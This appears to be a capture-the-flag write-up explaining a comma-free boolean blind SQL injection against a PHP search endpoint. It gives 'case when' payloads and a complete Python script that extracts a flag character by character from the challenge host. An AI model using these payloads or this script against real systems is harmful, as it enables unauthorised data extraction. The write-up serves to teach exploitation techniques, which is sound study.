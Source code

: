 Here, SQL query is composed by string concatenation, so there is an obvious SQL injection vulnerability. If you pass in `?tag='`, the SQL query will fail. For the convenience of debugging, the SQL query will be printed out when an error occurs.

A very intuitive way to retrieve other data is to use `union`, but this trick doesn't work here because the parameter we pass in is separated by commas, so there can be no commas in our payload, otherwise the entire query will be messed up and become very strange.

Therefore, one of the interesting things about this question is how to use this vulnerability without using commas.

A simple and intuitive way is to use `case when` with `sleep`, like this:

``` sql
(select case when (content like "c%") then 1 else sleep(1) end from flag)
```

From the response time of the response, we can infer whether the condition is met or not. However, because the code blocks sleep, we cannot use it in this way (the original case did not block this, but I added it separately).

But if you observe carefully, you will find that we don't need to use sleep. We can use the return value of `case when` to perform the original filtering function and infer which condition is met from the result, like this:

``` sql
(select case when (content like "c%") then 1 else 10 end from flag)
```

When the condition (`content like 'c%'`) is met, the return value is 1, otherwise it is 10. If it is 1, the returned JSON will have data, otherwise it won't. Therefore, we can know whether the condition is met based on whether there is data or not.

Next, let's write a script for this simplest method.

``` python
# exploit-search.py
import requests
import datetime
import json

host = 'https://od-php.herokuapp.com/sql'
char_index = 0
char_set = 'abcdefghijklmnopqrstuvwxyz}_'
result = 'cymetrics{'
while True:
  if char_index >= len(char_set):
    print("end")
    break

  char = char_set[char_index]
  payload = f'(select case when (content like "{result}{char}%") then 1 else 10 end from flag)'
  response = requests.get(f'{host}/search.php?tag={payload}')
  print("trying", char)
  if response.ok:
    data = json.loads(response.text)
    if len(data) > 0:
      result += char
      print(result)
      char_index = 0
    else:
      char_index += 1

  else:
    print('error')
    print(response.text)
    break

```

